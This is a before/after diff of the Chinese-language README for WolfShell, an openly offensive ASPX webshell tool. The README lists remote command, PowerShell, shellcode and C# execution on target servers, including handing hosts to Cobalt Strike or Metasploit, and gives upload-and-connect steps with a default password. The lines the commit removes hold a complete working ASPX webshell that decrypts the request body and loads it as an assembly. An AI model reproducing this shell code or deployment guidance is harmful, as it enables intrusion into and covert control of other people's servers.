

Before and after one commit to 0x7556/wolfshell, a Markdown page: README.md, 2 parts joined by grey strips. Drawn GitHub-style; blank space fills up the shorter version; grey boxes are pictures that could not be loaded.

````diff
--- a/README.md
+++ b/README.md
@@ -24,6 +24,7 @@
 ## 🔥 功能特性
 
 *   Cmd命令执行： 在目标系统上直接执行任意 CMD 命令。
+*   文件管理： 在目标系统上枚举目录文件、新建文件、重命令、删除、设置文件时间等。
 *   PowerShell命令执行： 支持执行 PowerShell 脚本和命令。
 *   Shellcode执行： 可在目标环境内直接执行原生的 Shellcode，一键上线Cobalt Strike、Metasploit。
 *   C#代码执行： 支持在运行时动态加载与执行 C# 代码。
@@ -55,16 +56,10 @@
 3. **上传WolfShell**
    - 将WolfShell文件上传到目标ASPX服务器。
 
-```csharp
-
-<%@ Page Language="C#" %><%if (Request.Cookies.Count != 0) { byte[] k = Encoding.Default.GetBytes("ca63457538b9b1e0"); System.IO.Stream s = Request.InputStream; byte[] c = new byte[s.Length]; s.Read(c, 0, c.Length); System.Reflection.Assembly.Load(new System.Security.Cryptography.RijndaelManaged().CreateDecryptor(k, k).TransformFinalBlock(c, 0, c.Length)).CreateInstance("K").Equals(this); }%>
-
-```
-
 4. **访问WebShell**
    - 通过工具客户端连接WebShell，默认密码 WolfShell，修改密码可使用工具上的WolfHash加密。
 
-![wolf](http://www.18k.icu/img/wolfshell/WolfShell.png)
+![wolfshell](http://www.18k.icu/img/wolfshell/WolfShell.png)
 
 
 ## 示例
@@ -76,6 +71,12 @@
 ### PowerShell命令执行
 
 ![PowerShell示例](http://www.18k.icu/img/wolfshell/PowerShell.png)
+
+
+### 文件管理
+
+![FileMgr](http://www.18k.icu/img/wolfshell/FileMgr.png)
+
 
 ### C#代码执行
 
````
